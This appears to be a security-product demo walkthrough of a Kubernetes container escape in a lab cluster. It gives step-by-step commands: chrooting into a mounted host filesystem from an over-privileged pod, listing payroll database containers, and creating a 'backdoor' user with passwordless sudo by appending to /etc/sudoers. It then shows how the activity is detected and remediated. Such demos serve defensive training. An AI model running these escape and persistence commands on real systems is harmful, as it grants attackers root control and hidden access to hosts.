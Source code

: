 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```
```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission:

```sh
capsh --print | grep chroot
```

This allows us to change our root to act like we are in the mounted host system:

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With Docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name payrolldb
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> <i class="fa fa-info"></i> **Note:**
> 
> The package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user or provide some other method of persistent access, such as a Cron job or systemd service.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, later investigating with `crictl`, and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
